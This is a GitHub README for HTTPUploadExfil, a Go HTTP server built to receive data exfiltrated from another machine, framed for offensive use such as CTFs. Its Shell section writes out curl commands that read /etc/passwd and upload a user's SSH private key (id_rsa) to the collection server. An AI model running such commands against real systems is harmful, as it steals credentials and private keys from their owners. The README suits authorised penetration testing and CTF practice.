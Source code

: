 # HTTPUploadExfil

`HTTPUploadExfil` is a (very) simple HTTP server written in Go that's useful for getting files (and other information) off a machine using HTTP. While there are many use-cases, it's meant to be used in **low-stakes offensive scenarios** (e.g., CTFs).

Think of this as `python3 -m http.server` but for getting data off a machine instead of on the machine.

Obviously, this is a **very loud** and **somewhat restricted** way of exfiltrating data. Nevertheless, it's quite handy and somewhat easier than, for example, using SMB or FTP.

**TL;DR**

1) Build the tool using `go build`.
2) Run `./httpuploadexfil :1337 /home/kali/loot` on your machine.
3) Access `http://YOUR_IP:1337/` on the machine you need to exfiltrate data from.
4) Find your uploaded files in `/home/kali/loot`.

## Building

It's trivial to build this tool. 

Simply run `go build` within the folder, and you should get an `httpuploadexfil` executable for your platform.

## Usage

The most common use case would be to run the server on *Machine A*. Now, on *Machine B* you access the upload form using a browser and select a file to exfiltrate. Of course, as you can see below, this can also be done using, for example, `curl`.

Aside from uploading files, you can also use `HTTPUploadExfil` to exfiltrate data using simple GET requests. If a request is sent to the `\g` endpoint, the whole request will be stored to disk.

Hence, you can exfiltrate data using the header of the request. It's easiest to use GET parameters (e.g., `?data=...`), but there are other options.

![HTTPUploadExfil](https://github.com/IngoKl/HTTPUploadExfil/blob/main/media/example-1.png?raw=true)

By default, `HTTPUploadExfil` will be served on port 8080. All files will be written to the current directory.

`./httpuploadexfil`

You can also provide some arguments:

`./httpuploadexfil :1337 /home/kali/loot`

The first argument is a bind address, the second one the folder to store files in.

### Endpoints

The webserver exposes three endpoints for you to use:

1) `/` (GET) is the upload form.
2) `/p` (POST) takes the data from the upload form. It requires a `multipart/form-data` request with the `file` field filled.
3) `/g` (GET) will take any GET request and store the full request on the server.

### Shell

Using `Bash`, we can exfil data using GET via, for example:

``echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g``

Of course, we can also use `curl` to exfil files:

`curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p`

## ToDo

* Implement an HTTPs version (Transport Encryption)
* Add download option (i.e., provide `python3 -m http.server` functionality)
